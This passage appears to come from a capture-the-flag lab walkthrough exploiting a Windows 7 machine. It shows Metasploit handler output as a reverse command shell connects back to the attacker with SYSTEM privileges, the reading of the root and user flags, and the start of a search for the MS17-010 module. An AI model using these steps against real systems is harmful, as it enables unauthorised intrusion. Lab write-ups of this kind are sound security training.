 

In Metasploit, I get a callback:



    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.1.1.13
    [*] Command shell session 1 opened (10.254.1.47:445 -> 10.1.1.13:49173) at 2019-02-21 13:28:21 -0500

    msf5 exploit(multi/handler) > sessions

    Active sessions
    ===============

      Id  Name  Type               Information                                                                       Connection
      --  ----  ----               -----------                                                                       ----------
      1         shell x86/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.254.1.47:445 -> 10.1.1.13:49173 (10.1.1.13)

    msf5 exploit(multi/handler) > sessions -i 1
    [*] Starting interaction with 1...

    More?
    SR<@p   f%_փMgٿ?:6Zdx8}}(ks-cx_JwD`c@MWHȱl hp6
    The system cannot find the file specified.

    C:\Windows\system32>whoami
    whoami
    nt authority\system



From there I can grab the flags:



    C:\Users\Admin\Desktop>type root.txt
    68bba2c7...

    C:\Users\User\Desktop>type user.txt
    3f819f9f...



### Metasploit - Fail

I figured I'd show how to do this with Metasploit as well, but that
effort led to failure.

#### Scan

Since I already have it open, I'll type `background` into my shell to
background the session. Then I'll search for the exploit:



    msf5 exploit(multi/handler) > search ms17-010

    Matching Modules
    ================
